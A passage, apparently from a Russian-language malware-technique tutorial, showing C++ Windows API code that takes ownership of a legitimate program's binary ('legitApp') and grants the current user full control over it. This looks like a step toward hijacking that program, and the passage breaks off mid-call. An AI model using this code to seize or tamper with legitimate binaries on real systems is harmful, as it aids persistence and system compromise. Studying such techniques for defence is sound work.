 ```cpp
// initialize a security descriptor
SECURITY_DESCRIPTOR sd;
if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
  printf("failed to initialize security descriptor: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("init security descriptor: ok\n");

// set the owner in the security descriptor
if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
  printf("failed to set security descriptor owner: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting security descriptor owner: ok\n");

// apply the security descriptor to the file
if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
  printf("error setting file ownership: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting file ownership: ok\n");
```

`InitializeSecurityDescriptor` - инициализирует новый дескриптор безопасности.   
`SetSecurityDescriptorOwner` - устанавливает владельца в дескрипторе безопасности на `SID` текущего пользователя.   
`SetFileSecurityA` - применяет дескриптор безопасности к законному двоичному файлу для смены его владельца.   

Затем применяет новый ACL к файлу:

```cpp
// set full control for the current user
EXPLICIT_ACCESS ea;
PACL pNewAcl = NULL;

ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
ea.grfAccessPermissions = GENERIC_ALL;
ea.grfAccessMode = SET_ACCESS;
ea.grfInheritance = NO_INHERITANCE;
ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
  printf("error setting new ACL: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting new ACL: ok\n");

if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, 
NULL, NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
```